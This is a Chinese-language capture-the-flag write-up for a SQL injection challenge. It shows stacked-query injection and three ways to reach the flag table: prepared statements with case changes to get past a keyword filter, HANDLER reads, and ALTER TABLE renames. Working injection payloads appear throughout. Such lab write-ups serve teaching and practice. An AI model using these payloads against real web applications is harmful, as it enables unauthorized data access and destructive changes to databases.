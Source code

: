 

# 1.解题过程

> 题目描述是随便注，所以web狗的一套连招先放放，注入无果后再说

![image-20230511085401036](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511085401036.png)

通过`GET`传值传输，试试是否能注入

![image-20230511085534158](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511085534158.png)

> 注入：1'or 1=1#

![image-20230511094518949](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511094518949.png)

注入成功，接下来使用堆叠注入获取表名

> 注入：1';show tables;

![image-20230511095118196](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511095118196.png)

查看第一个表，因为表名是纯数字所以使用反单引号包起来

![image-20230511095612691](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511095612691.png)

发现有设置过滤，show一下表查看列发现flag就再这个表里

![image-20230511095955015](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511095955015.png)

## 三种做法

### 1.预编译绕过

[什么是预编译?](https://www.cnblogs.com/micrari/p/7112781.html)

通常我们的一条sql在db接收到最终执行完毕返回可以分为下面三个过程：

1. 词法和语义解析
2. 优化sql语句，制定执行计划
3. 执行并返回结果

我们把这种普通语句称作**Immediate Statements**

但是很多情况，我们的一条sql语句可能会反复执行，或者每次执行的时候只有个别的值不同（比如query的where子句值不同，update的set子句值不同,insert的values值不同）
如果每次都需要经过上面的词法语义解析、语句优化、制定执行计划等，则效率就明显不行了。

所谓预编译语句就是将这类语句中的值用占位符替代，可以视为将sql语句模板化或者说参数化，一般称这类语句叫**Prepared Statements**或者**Parameterized Statements**
预编译语句的优势在于归纳为：**一次编译、多次运行，省去了解析优化等过程；此外预编译语句能防止sql注入**
当然就优化来说，很多时候最优的执行计划不是光靠知道sql语句的模板就能决定了，往往就是需要通过具体值来预估出成本代价

**例如：**

**编译**

我们接下来通过 `PREPARE stmt_name FROM preparable_stm`的语法来预编译一条sql语句

```mysql
mysql> prepare ins from 'insert into t select ?,?';
Query OK, 0 rows affected (0.00 sec)
Statement prepared
```

**执行**

我们通过 `EXECUTE stmt_name [USING @var_name [, @var_name] ...]`的语法来执行预编译语句

```mysql
mysql> set @a=999,@b='hello';
Query OK, 0 rows affected (0.00 sec)

mysql> execute ins using @a,@b;
Query OK, 1 row affected (0.01 sec)
Records: 1  Duplicates: 0  Warnings: 0

mysql> select * from t;
+------+-------+
| a    | b     |
+------+-------+
|  999 | hello |
+------+-------+
1 row in set (0.00 sec)
```

可以看到，数据已经被成功插入表中

**具体做法：**

**编译**

```mysql
set @sql = concat("selec",'t * from `1919810931114514`;');
prepare qwe from @sql;
```

**执行**

```mysql
execute qwe;
```

**payload**

```url
1';set @sql = concat("selec",'t * from `1919810931114514`;');prepare qwe from @sql;execute qwe;
```

![image-20230511103451058](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511103451058.png)

发现`strstr()`对关键字`set`和`prepare`进行了过滤，但是mysql对大小写是不"敏感"的所以使用大小写绕过即可

```url
1';Set @sql = concat("selec",'t * from `1919810931114514`;');Prepare qwe from @sql;execute qwe;
```

![image-20230511103720032](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511103720032.png)

### 2.HANDLER查询

MySQL“自古以来”都有一个神秘的HANDLER命令，而此命令非SQL标准语法，可以降低优化器对于SQL语句的解析与优化开销，从而提升查询性能

**语法**

```mysql
HANDLER tbl_name OPEN [ [AS] alias]
HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,…) [ WHERE where_condition ] [LIMIT … ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST } [ WHERE where_condition ] [LIMIT … ]
HANDLER tbl_name READ { FIRST | NEXT } [ WHERE where_condition ] [LIMIT … ]
HANDLER tbl_name CLOSE
```

**payload**

```url
1';handler `1919810931114514` open;handler `1919810931114514` read first;
```

![image-20230511104324565](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511104324565.png)

### 3.修改表名

> 并不推荐这种解法
>
> 毕竟需要修改题目的数据，一旦失误题目就可能解不开了
>
> 平时做题还好，可以重开环境
>
> **万一是比赛遇到了最后再考略这种解法**

还记得除了flag的表之外还有一个`words`表

show一下这个表的列

> 注入：1';show columns from words;

![image-20230511104633878](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511104633878.png)

可以发现这个表就是输入1时输出的数据所在表

所以将`1919810931114514`表的名字改为`words`就可以获取flag了

**具体做法：**

将`words`表名改为`words1`

```mysql
alter table words rename to words1;
```

将`1919810931114514`表名改为`words`

```mysql
alter table `1919810931114514` rename to words;
```

现在改后的`words`表中没有id字段，php中设置的sql语句就会报错，把flag字段改为id即可

```mysql
alter table words change flag id varchar(100);
```

**payload**

```url
1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(100);
```

```url
1'or 1=1;
```



![image-20230511110309299](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511110309299.png)

# 2.总结

之前做过类似的题目，并没有使用过预编译的做法

这次又接触到了一种解题方式，后续会继续了解

